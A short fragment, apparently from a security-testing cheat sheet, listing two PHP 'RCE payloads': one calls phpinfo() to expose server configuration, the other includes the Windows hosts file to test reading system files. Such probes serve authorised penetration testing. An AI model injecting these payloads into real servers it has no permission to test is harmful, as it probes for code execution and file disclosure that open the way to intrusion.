 ## RCE Payloads:
```
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
